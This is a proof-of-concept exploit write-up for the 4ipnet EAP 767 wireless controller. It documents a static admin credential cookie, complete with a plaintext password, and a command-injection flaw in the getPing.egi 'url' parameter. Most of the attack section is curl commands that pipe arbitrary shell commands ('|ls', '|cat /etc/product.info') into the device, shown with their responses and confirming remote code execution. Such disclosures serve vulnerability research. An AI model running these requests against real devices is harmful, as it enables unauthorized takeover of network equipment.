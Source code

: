 # PoC for 4ipnet EAP 767

```zsh!
❯ curl -I http://{host}/
HTTP/1.1 302 Moved Temporarily
Date: Mon, 15 Jan 2024 01:10:14 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
ETag: "29e-122-2b9cb3e0"
Content-length: 88
Connection: keep-alive
Keep-Alive: timeout=60, max=100
Location: http://{host}/login.asp
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_1ab1ac81f80c42b992f6c4fc96be40e8.png)

After accessing the login web page, it was discovered to be a 4ipnet wireless network controller
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)


**Search online articles to obtain the default password for the device.**

**Web console features**
Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

The management interface has the Home > Utilities > Network Utilities feature, allowing network tests such as ping, tracert, arping, etc., to be performed through the web page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit PoC
**PoC I @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, verify HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


http request characteristics
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
:::info
It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page
:::

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

:::danger
Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged:::

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**PoC II @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` page and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command
**Attemp I with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp II with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)


:::success
Confirmed the presence of a Remote Code Execution (RCE) vulnerability in the product. Arbitrary commands can be executed by passing the url parameter: input_text + pipe + command
:::


## Verify the device brand and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)
## Reference
https://hkitblog.com/12770/
https://www.lienshen.com.tw/sidebar1_01-2-11.html
https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1
